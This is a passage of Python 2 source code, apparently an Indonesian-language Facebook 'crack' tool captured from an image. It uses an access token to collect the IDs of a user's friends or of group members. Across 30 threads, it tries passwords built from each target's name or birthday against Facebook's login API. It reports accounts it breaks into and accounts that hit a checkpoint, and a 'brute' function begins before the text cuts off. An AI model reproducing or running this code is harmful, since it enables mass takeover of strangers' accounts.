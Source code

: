 '\x1b[1;97m\xe2\x95\x90'             jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id teman \x1b[1;97m...')             r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)             z = json.loads(r.text)             for s in z['data']:                 id.append(s['id'])          else:             if peak == '2':                 os.system('clear')                 print logo                 print 40 * '\x1b[1;97m\xe2\x95\x90'                 idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Grup   \x1b[1;91m:\x1b[1;97m ')                 try:                     r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&amp;access_token=' + toket)                     asw = json.loads(r.text)                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama grup \x1b[1;91m:\x1b[1;97m ' + asw['name']                 except KeyError:                     print '\x1b[1;91m[!] Grup tidak ditemukan'                     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                     super()                  re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&amp;limit=999999999&amp;access_token=' + toket)                 s = json.loads(re.text)                 for i in s['data']:                     id.append(i['id'])              else:                 if peak == '0':                     menu_hack()                 else:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada'                     pilih_super()     print '\x1b[1;91m[+] \x1b[1;92mJumlah ID \x1b[1;91m: \x1b[1;97m' + str(len(id))     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     titik = ['.   ', '..  ', '... ']     for o in titik:         print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o,         sys.stdout.flush()         time.sleep(1)      print     print 40 * '\x1b[1;97m\xe2\x95\x90'      def main(arg):         user = arg         try:             a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)             b = json.loads(a.text)             pass1 = b['first_name'] + '123'             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')             q = json.load(data)             if 'access_token' in q:                 print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1             else:                 if 'www.facebook.com' in q['error_msg']:                     print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1                 else:                     pass2 = b['first_name'] + '12345'                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass2 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     q = json.load(data)                     if 'access_token' in q:                         print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2                     else:                         if 'www.facebook.com' in q['error_msg']:                             print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2                         else:                             pass3 = b['last_name'] + '123'                             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass3 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                             q = json.load(data)                             if 'access_token' in q:                                 print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3                             else:                                 if 'www.facebook.com' in q['error_msg']:                                     print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3                                 else:                                     lahir = b['birthday']                                     pass4 = lahir.replace('/', '')                                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass4 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                                     q = json.load(data)                                     if 'access_token' in q:                                         print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4                                     else:                                         if 'www.facebook.com' in q['error_msg']:                                             print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4         except:             pass      p = ThreadPool(30)     p.map(main, id)     print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')     super()   def brute():     os.system('clear')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf